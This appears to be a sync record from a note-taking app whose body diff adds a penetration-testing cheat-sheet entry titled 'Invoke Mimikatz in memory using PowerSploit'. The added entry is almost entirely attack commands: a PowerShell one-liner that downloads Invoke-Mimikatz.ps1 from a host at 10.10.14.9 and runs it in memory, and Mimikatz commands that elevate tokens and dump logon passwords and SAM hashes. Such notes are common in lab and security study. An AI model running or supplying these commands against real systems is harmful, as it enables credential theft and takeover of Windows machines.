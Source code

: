 id: cafe8c37a1c04d20ae54e0426b85bb76
parent_id: 8e1b1be671764a28b1aff3ae6f71aeb0
item_type: 1
item_id: f460052c6a4b4bd4bf4e2f845c5e0215
item_updated_time: 1643558960858
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"f3b1567)\"],[1,\"\\\n\\\n<ins>Invoke Mimikatz in memory using PowerSploit</ins>\\\n\\\nThe Invoke-Mimikatz can be found in /usr/share/windows-resources/powersploit/Exfiltration/Invoke-Mimikatz.ps1\\\n\\\n> powershell -nop \\\"IEX(New-Object Net.WebClient).downloadString('[http://10.10.14.9:8000/Invoke-Mimikatz.ps1](http://10.10.14.9:8000/ipw.ps1)')\\\"\\\n> \\\n> Invoke-Mimikatz -DumpCreds #Dump creds from memory\\\n> \\\n> Invoke-Mimikatz -Command '\\\"privilege::debug\\\" \\\"token::elevate\\\" \\\"sekurlsa::logonpasswords\\\" \\\"lsadump::sam\\\" \\\"exit\\\"'\"]],\"start1\":896,\"start2\":896,\"length1\":8,\"length2\":494}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-30T16:10:58.688Z
created_time: 2022-01-30T16:10:58.688Z
type_: 13